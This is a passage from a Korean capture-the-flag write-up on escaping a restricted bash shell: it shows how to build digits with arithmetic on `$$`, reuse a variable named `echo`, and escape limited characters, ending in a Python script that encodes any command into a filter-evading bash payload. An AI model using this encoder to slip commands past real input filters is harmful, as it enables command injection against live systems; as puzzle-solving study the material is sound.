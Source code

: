 임의의 숫자를 구하는 것은 단순하다. `$$`는 현재 실행되고 있는 프로세스의 `pid`를 뜻한다. 중요한건 그게 아니라, shell 에서의 산술 연산을 통해서 우리가 원하는 임의의 숫자를 구할 수 있다는 것이다. 먼저 `1`을 표현하기 위해서는 다음과 같이 하면 된다.

`$(($$==$$))`

그럼 이제 이 결과를 임의의 변수에 넣어본다. 사실 사용할 수 있는 변수명이 `echo`뿐이다..

`echo=$(($$==$$))`

이제 `$echo`의 값은 1이다. 그럼 이걸 토대로 `2`를 표현 해 보자.

`echoecho=$(($echo+$echo))`

더 간단해졌다. `$echoecho`의 값이 2가 된다. 이를 토대로 모든 숫자를 연산할 수 있게 된다.

### Stage 3 ~ 8 - 특수문자 사용 횟수 제한 우회하기

마지막 남은 단계다. `Stage 1`, `Stage 2`에서 나온 방법대로만 하면 인코딩하는게 어렵지 않은데, 하필이면 특수문자 사용 횟수가 제한되어 있어서 문제를 까다롭게 만든다. 하지만 `Write-up`을 확인해보니 크게 어렵지 않았다는 것을 알 수 있었다. 예를 들어 `(`의 사용 횟수는 1회로 제한되어 있는데, 이를 우회하기 위해서는 다음과 같이 할 수 있다.

`echo=\(; echo $echo$echo` (count:0)

해당 출력으로는 `((`가 되시겠다. 대충 감이 오는가? 다행스럽게도 `escape character` 역할을 하고 있는 백슬래쉬(`\`)가 횟수 제한이 없어서 수월하게 진행할 수 있다. 횟수 필터링에 공백은 딱히 우회하지 않아도 된다. 그리고 `=`랑 `;`는 모든 우회 단계에서 공통적으로 사용하므로 마지막에 인코딩해야 하고, 특히 `=`는 맨 마지막에 해야 좀 빡빡한 횟수제한에 안걸리는거 주의해야 한다. 그 외에는 어떤순서로 인코딩해도 상관이 없다. 이에 따른 최종 페이로드는 아래와 같다.

```python
import string
import re
import sys

cmd = sys.argv[1]

# Encode using $'\123\234'
def stage1(cmd):
    return "echo $'" + "".join("\\%o" % ord(d) for d in cmd) + "'"

def escape(cmd):
    def enc(c):
        if c in "\\$()';":
            return "\\" + c
        return c

    return "".join(enc(c) for c in cmd)

# Encode digits using bash arithmetics.
def stage2(cmd):
    cmd = escape(cmd)
    def enc(c):
        if c not in string.digits:
            return c

        if c == "0":
            return "$(($$==$echo))"
        else:
            return "$((" + "+".join("$echo" for _ in range(int(c))) + "))"

    cmd = "".join(enc(c) for c in cmd)
    return "echo=$(($$==$$)); echo " + cmd


# Encode '
def stage3(cmd):
    cmd = escape(cmd)
    return "echo=\\'; echo " + cmd.replace("\\'", "$echo")

# Encode (
```